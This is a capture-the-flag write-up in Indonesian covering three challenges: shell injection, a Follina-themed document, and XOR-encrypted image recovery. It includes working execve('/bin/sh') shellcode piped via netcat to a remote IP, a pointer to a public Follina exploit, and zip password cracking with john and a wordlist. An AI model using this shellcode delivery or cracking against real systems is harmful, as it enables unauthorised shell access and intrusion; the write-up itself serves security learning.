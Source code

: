 ## shell (4 solved)

```asm
section .text
    global _start
_start:
    xor rax, rax
    push rax
    mov rdx, rsp
    mov rbx, 0x0068732f6e69622f2f
    push rbx
    mov rdi, rsp
    push rax
    push rdi
    mov rsi,rsp
    add rax, 59
    syscall
```

inputkan untuk mengekstrak hex instruksi assembly-nya:
```sh
nasm -gstabs -f elf64 -o bin_sh.o bin_sh.asm && ld bin_sh.o -o bin_sh && ./bin_sh
objdump -M Intel -d ./bin_sh |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

Lalu masukkan kedalam payload
```sh
(python2 -c 'print "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\  
x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05"';cat) | nc 101.50.0.66 9002
```

## Follina (9 solved)

Untuk folina saya melihat referensi kode dari github john hammond https://github.com/JohnHammond/msdt-follina

```python
...snip...
    # Modify the Word skeleton to include our HTTP server
    document_rels_path = os.path.join(
        staging_dir, doc_suffix, "word", "_rels", "document.xml.rels"
    )
...snip...
```

disini kita dapat menyimpulkan bahwa filenya ada di `/word/_rels/document.xml.rels`

kita disasamble doc-nya menggunakan binwalk
```sh
binwalk follina.doc -e
```

kita masuk ke path filenya dan mendapatkan
```
...snip...Target="https://github.com/banuaa/folliware!"...snip...
```

Kita akan diarahkan ke githubnya mas banua. Kita download file yang ada di sana, lalu bruteforce zipnya menggunakan john

```sh
zip2john flag.zip > brute.hash
john --wordlist=/usr/share/wordlists/rockyou.txt brute.hash
```

## ROXYNAM (6 solved)
```python
FLG_ENC = "flag.jpg.enc"
EX_JPG = "example.jpg"

with open(FLG_ENC, "rb") as f:
    FLG_BIN = f.read()[:3]
    
with open(EX_JPG, "rb") as f:
    EX_BIN = f.read()[:3]

# search the key
key = ""
for i, j in zip(FLG_BIN, EX_BIN):
    for k in range(0xff):
        if i ^ k == j:
            key += ('{:02x}'.format(k))
            break
key = bytes.fromhex(key).decode()

with open(FLG_ENC, "rb") as f:
    FLG_BIN = f.read()

# xor all the binary in the flag.jpg.enc
jpg_flag = bytes([x ^ ord(key[i % len(key)]) for i, x in enumerate(FLG_BIN)])
with open("flag.jpg", "wb") as f:
    f.write(jpg_flag)
```

disini saya hanya membandingkan header flag jpg dengan jpg lain. Kemudian men-xornya dengan key yang ditemukan. 